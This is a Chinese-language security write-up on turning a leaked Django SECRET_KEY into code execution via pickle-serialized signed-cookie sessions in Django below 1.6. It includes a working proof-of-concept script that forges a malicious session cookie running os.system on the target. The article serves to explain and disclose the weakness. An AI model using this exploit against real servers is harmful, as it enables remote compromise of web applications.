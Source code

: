 # 从django的SECRET_KEY到代码执行

0x00 背景
=====

最近审查代码发现某些产品在登录的`JS`代码中泄露了`SECRET_KEY`,将该值作为密码加密的盐，这样就暴露了加密`salt`不太好吧，更重要的是对`django`的安全造成了极大的威胁。

0x01 SECRET_KEY作用
=====

`SECTET_KEY`在`djanog`中使用非常广泛，基本上涉及到安全，加密等的地方都用到了，下面列举一些常见情景：

1，`json object`的签名

2，加密函数，如密码重置，表单，评论，`csrf`的`key`，`session`数据

这里面就要重点讲到`session`的问题，在这里使用不当就会导致代码执行

0x02 代码执行
=====

### 2.1 settings的session设置

`django`默认存储`session`到数据库中，但是可能会比较慢，就会使用到缓存，文件，还有`cookie`等方式，如果采用了`cookie`机制则有可能代码执行，settings配置如下：

```
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'

```

### 2.2 django 1.6以下

在`django1.6`以下，`session`默认是采用`pickle`执行序列号操作，在`1.6`及以上版本默认采用`json`序列化。代码执行只存在于使用`pickle`序列话的操作中。

### 2.3 session处理流程

可以简单的分为两部分，`process_request`和`process_response`,前者负责选择`session`引擎，初始化`cookie`数据。见代码

```
class SessionMiddleware(object):
    def process_request(self, request):
        engine = import_module(settings.SESSION_ENGINE)
        session_key = request.COOKIES.get(settings.SESSION_COOKIE_NAME, None)
        request.session = engine.SessionStore(session_key)

```

`process_response`则是处理返回给用户的`cookie`信息，比如修改过期时间等。在将`session`存入缓存后，可能在某个操作中会用到`session`信息，这个时候就会通过反序列化操作从缓存中取，如果反序列话引擎是采用`pickle`机制的话就存在代码执行。反序列化的代码位于`django.core.signing.py`中，这个模块主要是一些签名，加解密操作，同时也包含序列化和反序列化，默认采用`JSON`引擎，下面是反序列话`loads`的代码：

```
def loads(s, key=None, salt='django.core.signing', serializer=JSONSerializer, max_age=None):
    """
    Reverse of dumps(), raises BadSignature if signature fails
    """
    base64d = smart_str(
        TimestampSigner(key, salt=salt).unsign(s, max_age=max_age))
    decompress = False
    if base64d[0] == '.':
        # It's compressed; uncompress it first
        base64d = base64d[1:]
        decompress = True
    data = b64_decode(base64d)
    if decompress:
        data = zlib.decompress(data)
    return serializer().loads(data)

```

### 2.4 构造POC

```
import os
os.environ.setdefault('DJANGO_SETTINGS_MODULE','settings')
from django.conf import settings
from django.core import signing
from django.contrib.sessions.backends import signed_cookies


class Run(object):
    def __reduce__(self):
        return (os.system,('touch /tmp/xxlegend.log',))

sess = signing.dumps(Run(), serializer=signed_cookies.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
print sess

import urllib2
import cookielib

url = 'http://10.24.35.228:8000/favicon.ico'
headers = {'Cookie':'sessionid="%s"' %(sess)}
request = urllib2.Request(url,headers = headers)
response = urllib2.urlopen(request)
print response.read()

```

通过序列化`Run`类，实现创建一个文件的操作，在反序列化的时候执行这个操作。执行代码完成可看到在`/tmp`目录创建`xxlegend.log`文件，同时`web`报`500`错误。

0x03 总结
=====

利用条件总结起来就是这么几句话，首先泄露了`SECRET_KEY`,其次`session`引擎采用了`signed_cookies`,`django`版本小于`1.6`即存在代码执行问题。同样的问题也存在于`python`的其他`web`框架中，如`flask`，`bottle`。